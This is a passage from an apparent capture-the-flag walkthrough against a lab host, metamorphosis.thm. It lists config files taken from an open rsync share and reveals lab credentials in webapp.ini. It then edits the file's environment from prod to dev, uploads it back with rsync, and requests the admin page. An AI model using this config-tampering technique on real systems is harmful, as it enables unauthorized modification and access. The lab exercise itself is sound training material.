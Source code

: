 ```jsx
 4 drwxrwxrwx 2 root   root     4096 Apr 10  2021 .
 4 drwxr-xr-x 3 root   root     4096 Dec 13 04:16 ..
 8 -rw-r--r-- 1 nobody kali     4620 Apr  9  2021 access.conf
 4 -rw-r--r-- 1 nobody root     1341 Apr  9  2021 bluezone.ini
 4 -rw-r--r-- 1 nobody kali     2969 Apr  9  2021 debconf.conf
 4 -rw-r--r-- 1 nobody kali      332 Apr  9  2021 ldap.conf
96 -rw-r--r-- 1 nobody kali    94404 Apr  9  2021 lvm.conf
12 -rw-r--r-- 1 nobody nogroup  9005 Apr  9  2021 mysql.ini
72 -rw-r--r-- 1 nobody nogroup 70207 Apr  9  2021 php.ini
 4 -rw-r--r-- 1 nobody kali      320 Apr  9  2021 ports.conf
 4 -rw-r--r-- 1 nobody kali      589 Apr  9  2021 resolv.conf
 4 -rw-r--r-- 1 nobody kali       29 Apr  9  2021 screen-cleanup.conf
12 -rw-r--r-- 1 nobody kali     9542 Apr  9  2021 smb.conf
 4 -rw-rw-r-- 1 nobody nogroup    72 Apr 10  2021 webapp.ini
```

`cat metarsync/webapp.ini`

```jsx
[Web_App]
env = prod
user = tom
password = theCat

[Details]
Local = No
```

`nano metarsync/webapp.ini`

```jsx
[Web_App]
env = dev
user = tom
password = theCat

[Details]
Local = No
```

`rsync -av metarsync/webapp.ini rsync://$target_ip/Conf/webapp.ini`

```jsx
sending incremental file list
webapp.ini

sent 186 bytes  received 41 bytes  64.86 bytes/sec
total size is 71  speedup is 0.31
```

`curl -iLX GET -D response.txt http://metamorphosis.thm/admin/index.php`

```jsx
HTTP/1.1 200 OK
Date: Fri, 13 Dec 2024 09:19:55 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 261
Content-Type: text/html; charset=UTF-8

<html><head><div style='text-align:center'>
<h1 style='text-align:center'>Get Info of users</h1>
<form action='config.php' method='POST'>Username: <input type='text' name='username'/>
<input type='submit'/></form><br><h4>TODO: Add more features</div> <head></html> 
```
